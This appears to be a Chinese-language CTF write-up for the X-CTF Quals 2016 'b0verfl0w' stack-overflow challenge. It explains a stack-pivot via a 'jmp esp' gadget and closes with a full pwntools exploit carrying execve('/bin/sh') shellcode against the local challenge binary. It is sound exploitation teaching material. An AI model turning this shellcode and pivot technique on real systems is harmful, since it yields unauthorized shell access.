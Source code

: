 ```yaml
---
title: X-CTF Quals2016 b0verfl0w-wp
date: 2023-09-05 16:00:54
tags:
- CTF
- pwn
- stack 
- stack pivot
- XCTFQuals2016
- nightmare
categories:
- pwn-wp
---
```


[相关资源](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/stackprivot/X-CTF Quals 2016 - b0verfl0w)  

## 文件分析

```assembly
$ checksec b0verfl0w
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

## 代码分析

明显栈溢出

```sh
int vul() {
  char s[32]; // [esp+18h] [ebp-20h] BYREF
  puts("\n======================");
  puts("\nWelcome to X-CTF 2016!");
  puts("\n======================");
  puts("What's your name?");
  fflush(stdout);
  fgets(s, 50, stdin);
  printf("Hello %s.", s);
  fflush(stdout);
  return 1;
}
```

## 攻击方法

栈上可执行 首先想着就是在s数组中写入shellcode然后跳转到s   但因为aslr栈地址随机化无法知道s的地址  也没有别的后门函数

查看`jmp`gadget发现

```assembly
$ ROPgadget --binary b0verfl0w --only "ret|jmp"
Gadgets information
============================================================
[...]
0x08048504 : jmp esp
[...]
```

### jmp esp用处

当当前函数执行到`leave`指令后（即`mov esp, ebp;pop ebp`），esp指向`ret addr`，接着`ret`跳转执行 `esp = esp + 4; eip = ret addr`

```
|------------|------...----|     |------------|------...----|
|  addr 0x11 |      ...    |  →  | addr 0x11  |      ...    |
|------------|------...----|     |------------|------...----|
↑ esp 									   ↑ esp     eip = 0x11
```

但如果ret addr处地址为`jmp esp`的地址  则执行完jmp之后，eip和esp指向同一块位置，也就是接着执行栈上的指令

```
|------------|------...----|      |------------|------...----|
|  addr 0x11 |      ...    |  →   | addr 0x11  |      ...    |
|------------|------...----|      |------------|------...----|
↑ esp 	                                       ↑ esp   eip = 0x11(jmp esp)
               |------------|------...----|
 ➤ jmp esp ➤   | addr 0x11  |      ...    |
               |------------|------...----|
                            ↑ esp,eip
```

因此我们可以在ret addr之后写入汇编指令  但是由于只有`50 - 32 = 18`字节的溢出空间，显然不够写入完整shellcode 

但是可以把shellcode写入变量s  在ret addr之后写入`sub esp, 0x28;jmp esp`   0x20(s) + 0x4(old ebp) + 0x4(ret addr) = 0x28

这样子就可以把esp移到变量s的地址，然后跳转执行s里的shellcode

## exp

```python
from pwn import *
import sys

context(os='linux', arch='i386', log_level='debug')

mode = ''
if len(sys.argv) > 1:
    mode = sys.argv[1]
proc = process("./b0verfl0w")

gscript = '''
    b * 0x0804857A
    c
'''
if mode == '-d':
    gdb.attach(proc, gdbscript=gscript)

# shellcode, from https://shell-storm.org/shellcode/files/shellcode-811.html
shcode = b"\x31\xc0\x50\x68\x2f\x2f\x73"
shcode += b"\x68\x68\x2f\x62\x69\x6e\x89"
shcode += b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
shcode += b"\xcd\x80\x31\xc0\x40\xcd\x80"   

ret = 0x0804836a
jmp_esp = 0x08048504
sub_esp_jmp = asm("sub esp, 0x28;jmp esp")	# move esp back to s, then jmp to esp

proc.sendlineafter(b'name?', shcode.ljust(0x24, b'h') + p32(jmp_esp) + sub_esp_jmp)

proc.interactive()
pause()
```

